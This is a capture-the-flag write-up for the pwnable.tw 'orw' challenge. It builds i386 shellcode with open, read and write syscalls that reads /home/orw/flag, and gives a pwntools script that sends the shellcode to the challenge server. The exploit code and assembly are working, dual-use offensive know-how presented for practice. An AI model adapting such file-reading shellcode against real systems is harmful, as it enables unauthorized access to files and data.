


# pwnable.tw - orw

Original challenge link: https://pwnable.tw/challenge/#2

You can also download the binary in my repo: [orw.zip](orw.zip)

And now, let's start!

# 1. Find bug

This program read from our input and then run our input as shellcode in assembly.

One thing to notice is that running shellcode on your machine will not work, while running shellcode on server works very well. So to test the assembly code, just write as normal and compile with assembly until you find it good, then use `asm` from pwntools to compile that assembly code.

# 2. Idea

Just for practicing writing shellcode, we will use 3 syscall are `open` to open flag, `read` to read flag and store in a buffer and then `write` to write flag to screen. Remember that we need to open path `/home/orw/flag`, not just `flag`.

# 3. Exploit

So let's create a file with name `r.asm` to code assembly and I created a file named `compile.sh` to compile assembly code using `nasm`:

```bash
#!/bin/sh

nasm -f elf32 -o r.o r.asm
ld -m elf_i386 -s -o r r.o
```

And now we start to write our assembly code to get the flag. First, we will need to make the stack contain the string `/home/orw/flag` so that we can have a pointer point to that string later. By splitting 4 bytes from that string one by one, we can get those string as follows:

```python
u32('/hom')          -> 1836017711
u32('e/or')          -> 1919889253
u32('w/fl')          -> 1818636151
u32('ag\x00\x00')    -> 26465
```

And in assembly code, we push it in a reverse order:

```assembly
section .text
	global _start

_start:
	push 26465
	push 1818636151
	push 1919889253
	push 1836017711
```

Compile with the file `compile.sh` above and attach to gdb, we can see the string is correct:



Next, you can find the syscall number and the argument for per syscall [here](https://chromium.googlesource.com/chromiumos/docs/+/master/constants/syscalls.md#x86-32_bit). So we want to do a `open` syscall, let's set all the argument now:

```assembly
    mov eax, 5
    mov ebx, esp
    mov ecx, 0
    mov edx, 0
    int 0x80
```

And the fd will be store in eax in case the file was opened successfully. Let's assume that the file was opened successfully and rax contain fd after syscall `open`. Let's read the flag with the fd we got:

```assembly
    mov ebx, eax
    mov eax, 3
    mov ecx, esp
    mov edx, 0x100
    int 0x80
```

And let's assume again that the flag is read and ecx is containing the pointer point to the flag read. Let's print it out with the following code:

```assembly
    mov eax, 4
    mov ebx, 1
    int 0x80
```

Now, let's add the full assembly code to python script and get the flag:

```python
from pwn import *

exe = context.binary = ELF('./orw', checksec=False)

# p = process(exe.path)
p = remote('chall.pwnable.tw', 10001)

payload = asm(
    '''
    push 26465
    push 1818636151
    push 1919889253
    push 1836017711

    mov eax, 5
    mov ebx, esp
    mov ecx, 0
    mov edx, 0
    int 0x80

    mov ebx, eax
    mov eax, 3
    mov ecx, esp
    mov edx, 0x100
    int 0x80

    mov eax, 4
    mov ebx, 1
    int 0x80
    ''', os='linux', arch='i386'
    )
p.sendafter(b'shellcode:', payload)
print(p.recvall())

p.interactive()
```

# 4. Get flag

